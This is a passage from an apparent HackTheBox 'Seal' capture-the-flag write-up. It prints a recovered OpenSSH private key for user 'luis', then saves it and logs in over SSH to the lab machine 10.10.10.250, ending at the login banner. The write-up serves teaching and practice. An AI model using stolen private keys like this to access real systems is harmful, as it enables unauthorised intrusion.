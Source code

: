 DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
7Ag2WQOrF+PDhbbhes7lIBasx63R60ePmBWsID/DoCfTVpGqZprZJMXBGxeJ9fr/5fu+JB
JrYu404k0kID6/06E3b0LcNdvmGn1bRJAf/IqRJwCKA/weiTjneKT0zYF/ETD1h/d5kra6
m5ZzDlibaPWKS8YTON7/SOhFI3vIKfxHEq7xwwXsxBDM2UviG3D/oZ8OXpWnbi5rXU0jD0
wlpKSPYVxzVPZ43A/k0UfwPdFR6nai5WiZIAvc6UVwdtPeg1cRWHTi3I4Hjd63JwgBIUO+
VbBB1xPzR4DvM4w9qN3JwDs7DMkK6jV7T2vqh41Q3If09U40pQlsQBR8vziD8QbqRP5GxK
MtfnSR7kfoBKesjJX6hchFYVGw6soQAAAAMBAAEAAAGAJuAsvxR1svL0EbDQcYVzUbxsaw
MRTxRauAwlWxXSivmUGnJowwTlhukd2TJKhBkPW2kUXI6OWkC+it9Oevv/cgiTY0xwbmOX
AMylzR06Y5NItOoNYAiTVux4W8nQuAqxDRZVqjnhPHrFe/UQLlT/v/khlnngHHLwutn06n
bupeAfHqGzZYJi13FEu8/2kY6TxlH/2WX7WMMsE4KMkjy/nrUixTNzS+0QjKUdvCGS1P6L
hFB+7xN9itjEtBBiZ9p5feXwBn6aqIgSFyQJlU4e2CUFUd5PrkiHLf8mXjJJGMHbHne2ru
p0OXVqjxAW3qifK3UEp0bCInJS7UJ7tR9VI52QzQ/RfGJ+CshtqBeEioaLfPi9CxZ6LN4S
1zriasJdAzB3Hbu4NVVOc/xkH9mTJQ3kf5RGScCYablLjUCOq05aPVqhaW6tyDaf8ob85q
/s+CYaOrbi1YhxhOM8o5MvNzsrS8eIk1hTOf0msKEJ5mWo+RfhhCj9FTFSqyK79hQBAAAA
wQCfhc5si+UU+SHfQBg9lm8d1YAfnXDP5X1wjz+GFw15lGbg1x4YBgIz0A8PijpXeVthz2
ib+73vdNZgUD9t2B0TiwogMs2UlxuTguWivb9JxAZdbzr8Ro1XBCU6wtzQb4e22licifaa
WS/o1mRHOOP90jfpPOby8WZnDuLm4+IBzvcHFQaO7LUG2oPEwTl0ii7SmaXdahdCfQwkN5
NkfLXfUqg41nDOfLyRCqNAXu+pEbp8UIUl2tptCJo/zDzVsI4AAADBAOUwZjaZm6w/EGP6
KX6w28Y/sa/0hPhLJvcuZbOrgMj+8FlSceVznA3gAuClJNNn0jPZ0RMWUB978eu4J3se5O
plVaLGrzT88K0nQbvM3KhcBjsOxCpuwxUlTrJi6+i9WyPENovEWU5c79WJsTKjIpMOmEbM
kCbtTRbHtuKwuSe8OWMTF2+Bmt0nMQc9IRD1II2TxNDLNGVqbq4fhBEW4co1X076CUGDnx
5K5HCjel95b+9H2ZXnW9LeLd8G7oFRUQAAAMEAyHfDZKku36IYmNeDEEcCUrO9Nl0Nle7b
Vd3EJug4Wsl/n1UqCCABQjhWpWA3oniOXwmbAsvFiox5EdBYzr6vsWmeleOQTRuJCbw6lc
YG6tmwVeTbhkycXMbEVeIsG0a42Yj1ywrq5GyXKYaFr3DnDITcqLbdxIIEdH1vrRjYynVM
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

Let's save it locally and use ssh to log in

```
chmod 600 id_rsa
ssh luis@10.10.10.250 -i id_rsa

spy0x7@root:~/ctfs/htb/Seal▶
→ ssh luis@10.10.10.250 -i id_rsa
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 12 Jul 2021 09:00:29 AM UTC
